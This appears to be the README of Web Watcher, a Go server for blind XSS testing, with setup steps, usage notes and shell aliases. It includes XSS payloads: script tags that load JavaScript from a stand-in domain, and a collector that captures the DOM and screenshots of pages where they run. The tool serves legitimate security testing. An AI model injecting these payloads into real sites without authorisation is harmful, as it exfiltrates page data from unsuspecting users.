 # Web Watcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  
1. Install  
```
git clone https://github.com/pichik/pfolio
```
2. Build application
```
sudo go build -o /usr/local/bin/pfolio pfolio/main.go
```
3. Set permissions for ports 
```
sudo setcap CAP_NET_BIND_SERVICE+ep ~/go/bin/pfolio
``` 
3. Fill `.wwconfig` and add it to your home directory.  
4. Move web directory to a place specified in config.  
5. Remove the rest.

All files in `assets/` are publicly accessible.  
If you are running https, directory with certificates should be generated.  

**!! Change domain in bait.js to your domain name !!**  

## Usage
Login to your website with /login?token=[token]  

After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](screenshots/results.png)  


### Collecting simple data from Collector path
This endpoint will contain response specified in `assets/extensions.json` file  
```
  "js": {
    "Extension": [".js", ".mjs"],
    "Content-Type": "application/javascript",
    "Payload": "alert(document.domain)"
  }
```   
Insert this payload to the website, alert will popup.  
`<script src=https://domain.com/pichik.js></script>`  
This endpoint use regex `pichik.*` so you can use `pichik-anything/after/counts.html`  

### Collecting data from blind XSS  
You can use any endpoint for testing blind XSS, but dont use your collector path for this, as it have priority, so no blind XSS payload will be send.  
Detailed report will be created, with DOM and Screenshot.  
These request will be sent to slack, if specified in config.  
`<script src=https://domain.com></script>`  
![blind xss](screenshots/blindxss.png)  


## Aliases
Useful linux aliases  
```
alias webstep='sudo mv ~/main /usr/local/bin/ww'
alias webstep2='sudo setcap CAP_NET_BIND_SERVICE+ep /usr/local/bin/ww'
alias wwinstal='webstep && webstep2; echo "Web watcher installed"'

alias wwstart='nohup ww >/dev/null 2>&1 & echo "Web watcher started"'
alias wwstop='pkill ww; echo "Web watcher stopped"'
alias wwrestart='wwstop;wwstart; echo "Web watcher restarted"'
alias wwdebug='tail -f ~/web/logs/debug.txt'
alias wwlog='tail -f ~/web/logs/requests.txt'
```
